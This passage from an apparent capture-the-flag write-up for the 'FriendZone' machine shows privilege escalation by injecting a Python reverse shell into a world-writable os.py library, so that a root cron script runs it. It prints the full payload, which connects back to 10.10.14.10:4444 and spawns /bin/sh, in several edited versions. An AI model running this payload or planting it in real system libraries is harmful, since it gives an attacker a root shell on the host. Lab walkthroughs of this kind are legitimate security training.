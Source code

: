 ```
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
Actually, the only relevant thing that we can see is the ```import os``` statement.  
So, we can try to edit the library with malicious code, so that wen it gets executed it execute a reverse shell (as root).
Let's locate the library and check the permissions.  
```
friend@FriendZone:/opt/server_admin$ locate os.py
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py
friend@FriendZone:/opt/server_admin$ ls -l /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15  2019 /usr/lib/python2.7/os.py
```
As we can see os.py is world writable, so let's inject our reverse shell.
From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) let's use the following shell:  
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
let's edit it as follows, so that we can inject it directly in the library.
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.10",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
As we are running the reverse shell directly within the os library, we'll need to remove ```os.``` as the functions are available directly into the code where this snippet resides.  
Obviously we should remove also os from the list of the import.  
```
import socket,subprocess;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.10",4444));
dup2(s.fileno(),0);
dup2(s.fileno(),1);
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```